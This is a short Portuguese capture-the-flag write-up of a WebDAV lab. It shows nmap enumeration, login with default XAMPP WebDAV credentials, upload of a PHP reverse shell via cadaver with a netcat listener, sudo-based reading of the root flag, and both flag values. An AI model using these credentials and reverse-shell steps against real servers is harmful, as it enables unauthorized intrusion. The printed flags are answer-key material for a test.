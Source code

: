 WEBDAV CTF

Para iniciar 

    nmap -A -sV -Pn IP

Encontrei a porta 80 

ao entrar tinha apenas o default do ubuntu, dei um gobuster tambem que nao resultou em nada...

Ate que executei um script do nmap chamado http-enum

    nmap -p 80 --script http-enum IP

Assim encontrando o diretorio /webdav que consiste em uma extensao do http para fazer a transferencias de arquivos, que ao acessar ele pedia um usuario e uma senha tentando admin:admin, admin:admin123 fui buscar por configuracoes padroes do webdav e encontrei nesse link 

    http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html
    
    user wampp
    pass xampp

Assim conseguindo se conectar ao webdav para entrar pela shell usamos o cadaver

    cadaver http://IP/webdav/

Encontrando um arquivo chamado passwd.dav ao ler o arquivo

    cat passwd.dav
    wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91

Ao dar um /help vi que tinha alguns comandos que eu podia usar como o comando put usado para introduzir arquivos e foi ai que explorei o servidor, procurando por exploits do webdav encontrei um em que se podia executar um phpreverseshell entao...

Script

    https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Inserindo o arquivo

    put shellphp.php

Criando o NetCat

    nc -nvlp 1333

Ao executar o arquivo do diretorio /webdav...

SUCESSO!!

Conseguimos acesso ao usuario merlin para localizar a primeira flag vamos ao /home

    cat /home/merlin/user.txt
    449b40fe93f78a938523b7e4dcd66d2a

Agora vamos escalar privilegios...

    sudo -l

Nos podiamos executar o comando "cat" como root...
Sendo assim ficou facil demais 

    sudo cat root/root.txt
    101101ddc16b0cdf65ba0b8a7af7afa5

FLAGS

    FLAG 1: 449b40fe93f78a938523b7e4dcd66d2a
    FLAG 2: 101101ddc16b0cdf65ba0b8a7af7afa5
    
Assim finalizando o desafio..